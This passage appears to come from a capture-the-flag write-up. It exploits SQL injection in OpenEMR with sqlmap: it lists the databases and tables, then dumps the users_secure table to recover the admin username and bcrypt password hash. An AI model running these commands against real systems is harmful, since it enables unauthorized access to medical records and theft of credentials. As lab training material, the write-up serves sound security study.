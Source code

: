 

There are four different injection attacks.

Now list the dbs:



    root@kali# sqlmap -r add_edit_event_user.request --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema                                    
    [*] openemr    



Tables in `openemr`:



    root@kali# sqlmap -r add_edit_event_user.request -D openemr --tables
    ...[snip]...
    Database: openemr
    [234 tables]                                              
    +---------------------------------------+
    | array                                 |
    | groups                                |
    | sequences                             |
    | version                               |
    ...[snip]...
    | user_settings                         |
    | users                                 |
    | users_facility                        |
    | users_secure                          |
    | valueset                              |
    | voids                                 |
    | x12_partners                          |
    +---------------------------------------+
    ...[snip]...



I dumped the `users` table, but didn't find much. In `users_secure`, I
found the admin login:



    root@kali# sqlmap -r add_edit_event_user.request -D openemr -T users_secure --dump
    ...[snip]...
    Database: openemr
    Table: users_secure
    [1 entry]
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+